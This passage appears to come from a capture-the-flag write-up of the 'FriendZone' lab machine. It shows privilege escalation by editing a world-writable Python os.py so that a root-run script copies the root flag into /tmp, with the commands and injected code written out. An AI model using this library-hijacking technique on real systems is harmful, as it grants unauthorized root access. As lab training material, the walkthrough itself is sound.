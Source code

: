 We have a python file that is being executed as root. Lets check that file out to see if we can do anything.
```
friend@FriendZone:~$ ls -la /opt/server_admin/reporter.py
-rwxr--r-- 1 root root 424 Jan 16  2019 /opt/server_admin/reporter.py
```
So we have read permissions. Reading the file I see something good.
```
friend@FriendZone:~$ cat /opt/server_admin/reporter.py
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```
The script doesn't do too much but it does use the <b>os</b> module which if you remember from the Enum scipt we know that we have write permissions to it. So lets edit the <b>/usr/lib/python2.7/os.py</b> and add in some code at the top that reads the root flag for us.
```
with open('/root/root.txt', 'r') as f:
  output = f.readline()
with open('/tmp/rootpass.txt', 'w') as o:
  o.write(output)
```
Now just wait a little bit and you should see the <b>rootpass.txt</b> file in the </b>/tmp</b> fdirectory with the root flag inside it.
<br><br><br>
